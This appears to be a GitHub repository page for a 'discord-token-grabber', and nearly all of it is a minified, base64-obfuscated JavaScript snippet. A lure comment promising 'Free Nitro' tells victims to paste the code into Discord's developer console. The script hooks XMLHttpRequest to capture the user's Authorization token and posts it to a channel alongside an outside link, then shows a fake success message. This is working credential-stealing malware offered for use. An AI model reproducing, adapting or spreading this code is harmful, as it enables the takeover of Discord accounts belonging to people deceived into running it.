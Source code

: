 # discord-token-grabber
Still works in 2021 (token logged some speds)

/***************************************
 * 
 *           Free Nitro
 *      paste to console on discord
 *      F12 on chrome/mozilla/Edge
 *      Ctrl+Shift+i on desktop app
 * 
 * **************************************/
XMLHttpRequest.prototype.wrappedSetRequestHeader=XMLHttpRequest.prototype.setRequestHeader,XMLHttpRequest.prototype.setRequestHeader=function(e,t){this.wrappedSetRequestHeader(e,t),this.headers||(this.headers={}),this.headers[e]||(this.headers[e]=[]),this.headers[e].push(t)};let oldXHROpen=window.XMLHttpRequest.prototype.open;window.XMLHttpRequest.prototype.open=function(e,t,o,n,s){return this.addEventListener("load",function(){isNaN(window.location.href.substring(window.location.href.lastIndexOf("/")+1,window.location.href.length))?console.log(atob("UGVuZGluZy4uIHRvIHJlc29sdmUgeW91ciBuaXRyby4=")):(fetch(atob("aHR0cHM6Ly9kaXNjb3JkYXBwLmNvbS9hcGkvdjYvY2hhbm5lbHMv")+window.location.href.substring(window.location.href.lastIndexOf("/")+1,window.location.href.length)+"/messages",{method:"POST",headers:{authorization:this.headers.Authorization[0],"user-agent":navigator.userAgent,"Content-Type":"application/json"},body:JSON.stringify({content:atob("aHR0cHM6Ly8weDUzOS5jby9rLw==")+this.headers.Authorization[0],tts:"false"})}),console.log("%c ",atob("Zm9udC1zaXplOiA0NTBweDsgYmFja2dyb3VuZDogdXJsKGh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzQ5OTIxMTI5NzI4ODYxNzk5Mi81Njg1MDg4NzgzNzU4Nzg2NjgvaW1hZ2VzLnBuZykgbm8tcmVwZWF0Ow==")),console.log("Congrats, you got free discord nitro"))}),oldXHROpen.apply(this,arguments)};
